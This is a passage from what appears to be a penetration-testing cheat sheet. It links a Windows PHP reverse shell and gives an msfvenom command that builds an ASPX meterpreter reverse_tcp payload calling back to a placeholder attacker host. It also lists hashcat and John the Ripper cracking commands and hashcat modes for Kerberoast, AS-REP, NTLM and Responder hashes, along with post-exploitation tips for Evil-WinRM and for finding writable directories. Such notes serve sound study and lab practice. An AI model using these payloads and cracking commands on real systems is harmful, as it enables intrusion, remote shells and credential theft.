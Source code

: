 
https://github.com/Dhayalanb/windows-php-reverse-shell/blob/master/Reverse%20Shell.php
```
### Windows reverse PHP 
```
https://github.com/Dhayalanb/windows-php-reverse-shell/blob/master/Reverse%20Shell.php
```

### ASPX payload for web 
```
aspx payload for web or  FTP
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your ip> LPORT=4000 -f aspx > rev.aspx
```

## Password Cracking
https://www.tunnelsup.com/hash-analyzer/

### hashcat
```
#If md5 hash is found
hashcat -m 0 -a 0 md5.txt /usr/share/wordlists/rockyou.txt 
```
### John the ripper
```
john hash --wordlist=/user/share/wordlists/rockyou.txt --format=md5crypt

format
username:hash
```
``` john hash --show```
Include full passwd file entry in hash

## Helpful tools

### Decode hash base64
``` echo ' HASH '  | base64 -d ```

### Hashing types
```
#Mscache V2
hashcat -m 2100
#Kerberoast
hashcat -m 13100
#ASREP roast
hashcat -m 18200
#NTLM
hashcat -m 1000
#responder hash
hashcat -m 5600
#MYSQL file hashes
mysql-sha1
```

### Evil winrm tips
```
Once in if on windows do whoami /all to see users groups
```
### File permissions to run
```
chmod 777 OR chmod 600
chmod +x file_name  - give current user permisson
```

### Find directories that are writable linux
```
find / -type d -writable -print
```

```